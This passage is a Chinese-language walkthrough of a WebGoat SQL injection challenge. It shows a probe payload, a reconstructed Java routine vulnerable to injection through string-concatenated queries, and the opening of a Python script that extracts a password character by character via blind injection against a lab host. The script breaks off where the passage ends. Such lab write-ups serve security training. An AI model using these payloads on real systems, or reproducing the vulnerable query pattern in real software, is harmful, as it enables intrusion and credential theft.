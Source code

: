 而后，猜测后台会先用`SELECT`语句验证数据库中是否有相同用户名的用户，此猜测可用`username_tmp = tom' AND '1' = '1'; --`验证，运行脚本，返回`User tom' AND '1' = '1'; -- already exists please try to register with a different username.`由此，可知此为SQL盲注的入口，且已知该注册逻辑形似：

```Java
import FinalString.tableName;
import FinalString.userNameString;
String username;

public String login (String username, String email, String password){
    String feedback;
    if (hasUser) {
        feedback = "User " + username + " already exists please try to register with a different username.";
    } else {
        feedback = addUser(...);
    }
    return feedback;
}

public boolean hasUser(String username) {
    String query = "SELECT * FROM " + tableName + " WHERE " +
        userNameString + " = '" + username + "';";
    boolean isExist = ;// execute the query and return a boolean
    return isExist;
}

public String addUser(...) {
    // add user to db. 
}
```

接着设`tableName`表格中有密码字段。但该密码字段未知。但从json中的命名风格来看，大概率为`password`，但也可能用`passwd`、`pwd`、`pass`等。

密码字段与密码的猜测可通过Python实现，核心判断为接收到`Success_feedback`。

编码

先**猜测数据库中的密码字段与密码首字母确定首字母**，密码字段若未猜出，之后将无法继续。确定字段为password后，进行逐位破解。

该过程示例代码如下：

```python
import requests
import json
from string import digits, ascii_letters, punctuation

"""
需要自己改
"""
base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}

relative_url = "/WebGoat/SqlInjection/challenge"
test_set = digits + ascii_letters + punctuation
email = '1234546@qq.com'
password = '123456'
password_fields = ['passwd', 'password']
password_field = "password"
guess = ""
result = ""

def guess_pw(guess, password_field, digit):
    username_tmp = f"tom' AND substring({password_field}, {digit}, 1) = '{guess}';--"
    params = {
        'username_reg': username_tmp, 
        'email_reg': email, 
```